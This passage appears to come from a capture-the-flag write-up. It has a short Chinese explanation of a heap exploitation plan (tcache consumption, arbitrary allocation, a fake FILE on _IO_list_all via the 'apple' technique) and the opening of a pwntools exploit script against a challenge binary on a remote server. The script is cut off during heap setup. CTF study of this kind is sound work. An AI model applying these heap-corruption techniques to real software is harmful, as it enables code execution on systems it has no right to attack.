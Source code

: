 注意到edit record不会释放堆块，我们可以尽情使用edit消耗tcache，
然后修改page 2里0x30的堆块（应对tcache count），实现任意地址分配，
最后往`_IO_list_all`上写fake file走apple。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './db'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x1bad)')
    else:
        sh = remote('61.147.171.106', 64245)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.8_amd64/libc.so.6')
    elf = ELF(EXE)

    def create(idx: int):
        sh.sendlineafter(b'---\n', b'1')
        sh.sendlineafter(b'Index', str(idx).encode())

    def remove(idx: int):
        sh.sendlineafter(b'---\n', b'2')
        sh.sendlineafter(b'Index', str(idx).encode())

    def insert(idx: int, varlen: int, varchr: bytes):
        sh.sendlineafter(b'---\n', b'3')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Length', str(varlen).encode())
        sh.sendafter(b'Varchar', varchr)

    def get(idx: int, slot: int) -> bytes:
        sh.sendlineafter(b'---\n', b'4')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Slot', str(slot).encode())
        sh.recvuntil(b'Varchar: ')
        return sh.recvuntil(b'\n-------', True)

    def edit(idx: int, slot: int, varlen: int, varchr: bytes):
        sh.sendlineafter(b'---\n', b'5')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Slot', str(slot).encode())
        sh.sendlineafter(b'Length', str(varlen).encode())
        sh.sendafter(b'Varchar', varchr)

    def leave():
        sh.sendlineafter(b'---\n', b'6')

    main_arena = 0x21ac80
    PROTECT_PTR = lambda pos, ptr: (pos >> 12) ^ ptr

    create(0)
    insert(0, 0x3fd, b'\x30')
    for i in range(1, 10):
        create(i)
    for i in range(1, 9):
        remove(i)
```